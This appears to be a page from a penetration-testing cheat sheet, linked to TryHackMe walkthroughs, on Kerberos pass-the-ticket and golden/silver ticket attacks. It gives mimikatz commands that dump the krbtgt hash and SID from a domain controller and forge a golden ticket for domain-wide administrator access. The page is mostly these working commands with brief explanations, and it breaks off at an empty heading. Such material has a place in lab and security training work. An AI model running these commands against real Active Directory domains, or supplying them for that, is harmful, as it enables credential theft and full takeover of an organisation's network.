 You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

**Victim**

```
dir \\$VICTIM\admin$
```

## Golden/Silver Ticket Attacks w/ mimikatz

**Examples**

[#golden-silver-ticket-attacks-w-mimikatz](../../walkthroughs/tryhackme/attacking-kerberos.md#golden-silver-ticket-attacks-w-mimikatz "mention")[#golden-ticket-attacks-w-mimikatz](../../walkthroughs/tryhackme/post-exploitation-basics.md#golden-ticket-attacks-w-mimikatz "mention")

**Victim**

```
mimikatz.exe
```

This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

**Victim(Mimikatz)**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

### Create a Golden/Silver Ticket

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

#### Golden Ticket

This is the command for creating a golden ticket.

**Victim - Mimikatz**

```
Kerberos::golden /user:Administrator /domain:$DOMAINCONTROLLERHOSTNAME /sid:$SID  /krbtgt:$NTLMHASH
```

#### Use the Golden Ticket to access other machine

This will open a new command prompt with elevated privileges to all machines.Access other Machines! - You will now have another command prompt with access to all other machines on the network.&#x20;

**Victim(Mimikatz)**
